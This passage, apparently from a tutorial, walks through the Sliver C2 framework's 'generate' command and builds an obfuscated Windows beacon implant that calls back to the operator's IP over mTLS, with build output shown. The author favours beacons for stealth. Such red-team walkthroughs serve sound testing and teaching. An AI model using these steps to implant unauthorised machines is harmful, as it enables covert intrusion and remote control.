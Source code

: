 ```bash
This is done so that these unique domains show up if someone runs 'strings' on the binary, if they then attempt 
to probe the endpoint or otherwise resolve the domain you'll be alerted that your implant has been discovered, 
and which implant file was discovered along with any affected sessions.

Important: You must have a DNS listener/server running to detect the DNS queries (see the "dns" command).

Unique canary subdomains are automatically generated and inserted using the --canary flag. You can view previously generated 
canaries and their status using the "canaries" command:
        generate --mtls foo.example.com --canary 1.foobar.com

++ Execution Limits ++
Execution limits can be used to restrict the execution of a Sliver implant to machines with specific configurations.

++ Profiles ++
Due to the large number of options and C2s this can be a lot of typing. If you'd like to have a reusable a Sliver config
see 'help profiles new'. All "generate" flags can be saved into a profile, you can view existing profiles with the "profiles"
command.

Sub Commands:
=============
  beacon  Generate a beacon binary
  info    Get information about the server's compiler
  stager  Generate a stager using Metasploit (requires local Metasploit installation)
```

From the help menu we see that the generate command has three other subcommands, giving us the option to generate a stager or a beacon. now, beaware that if we do not specify the subcommand,either beacon or stager, the payload generated will spawn session type interactive shells instead of beacon type shell, indeed, that option is available though I rather do a beacon to be more stealthier.
Inspired from the help menu examples, run the following to generate a windows beacon

```bash
sliver > generate beacon --mtls <mypublicip>:<PORT> --os windows --arch amd64 --format exe --seconds 5 --jitter 3

[*] Generating new windows/amd64 beacon implant binary (5s)
[*] Symbol obfuscation is enabled
[*] Build completed in 26s
[*] Implant saved to /home/maine/Downloads/RICH_BRUSH.exe
```

where:

    — seconds: beacon interval seconds (default: 60)
    — jitter: beacon interval jitter in seconds (default: 30)
    — mtls: mutual TLS
